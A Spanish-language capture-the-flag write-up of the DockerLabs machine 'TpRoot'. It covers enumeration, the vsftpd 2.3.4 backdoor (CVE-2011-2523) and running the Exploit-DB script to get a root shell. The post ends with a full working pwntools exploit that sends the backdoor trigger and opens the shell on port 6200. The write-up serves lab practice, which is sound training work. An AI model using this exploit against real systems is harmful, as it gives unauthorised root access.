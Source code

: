 ```yaml
---
layout: post
title: "TpRoot - Dockerlabs - Linux - Fácil"
date: 2025-08-24
img: /assets/img/tproot/banner.png
---
```

TProot es una máquina Linux de nivel fácil en DockerLabs que nos permite practicar enumeración básica y explotación de vulnerabilidades conocidas.



**Enumeración**

Comenzamos con un reconocimiento de la máquina objetivo.

![img1](/secnotes/assets/img/tproot/1.png)

![img2](/secnotes/assets/img/tproot/2.png) 

Con la herramienta **searchsploit** veremos si existe alguna vulnerabilidad sobre el servicio _vsdtpd 2.3.4_

![img3](/secnotes/assets/img/tproot/3.png)
 
Encontramos un script de ejecución de comandos a través de una puerta trasera (backdoor). Esto se ejecuta conectándonos a un servicio aparentemente legitimo (FTP, HTTP, etc), enviamos un trigger (Usuario especial, header, token, etc) el servicio abre un puerto oculto o devuelve una shell, y al conectarnos a ese puerto podemos ejecutar comandos.

Esta corresponde a la vulnerabilidad CVE-2011-2523. En Exploit database encontramos un script para comprometer este servicio.

![img4](/secnotes/assets/img/tproot/4.png) 

Para ejecutarlo vamos a crear un entorno aislado con Python3 

![img5](/secnotes/assets/img/tproot/5.png) 

Esto sirve para poder instalar paquetes independientes en el sistema sin comprometer las librerías de nuestro Kali. Es útil para trabajar con distintas versiones de las librerías.

Ejecutamos el script que descargamos pero nos da un error. Indica que no tenemos la librería de telnet en nuestro sistema, esto pasó por que la versión actual de Python (3.13.5) elimino estas librerias que traía por defecto. 
 
![img6](/secnotes/assets/img/tproot/6.png) 

![img7](/secnotes/assets/img/tproot/7.png) 


con el siguiente comando podemos ejecutar directamente la versión 3.11.13 de Python desde un contenedor de docker en nuestro entorno aislado

`docker run -it --rm -v "$PWD":/work -w /work python:3.11 bash
python3 –version`

![img8](/secnotes/assets/img/tproot/8.png)

 
Al ejecutar el script obtendremos automaticamente una shell como usuario root en la máquina víctima.

![img10](/secnotes/assets/img/tproot/10.png)



**Opcion 2:**

Podemos modificar el script para reemplazar telnet por pwntools, así el script funcionará con las versiones actuales de python 

```python
from pwn import *
import argparse
from signal import signal, SIGINT
from sys import exit

def handler(signal_received, frame):
    print('[✦] Exiting...')
    exit(0)

signal(SIGINT, handler)

parser = argparse.ArgumentParser()
parser.add_argument("host", help="Target IP address", type=str)
args = parser.parse_args()

host = args.host
portFTP = 21

user = b"USER nergal:)"
password = b"PASS pass"

ftp = remote(host, portFTP, timeout=5.0)
banner = ftp.recvline(timeout=5.0)
print(f"[✦] Banner: {banner.strip().decode(errors='ignore')}")
ftp.sendline(user)
ftp.recvuntil(b"pass", timeout=3.0)  # más laxo que "password."
ftp.sendline(password)
ftp.close()

try:
    shell = remote(host, 6200, timeout=5.0)
    print("[✦] Success, shell opened")
    print("[i] Type 'exit' to quit")
    shell.interactive()
    shell.close()
except Exception as e:
    print(f"[!] Error: {e}")```
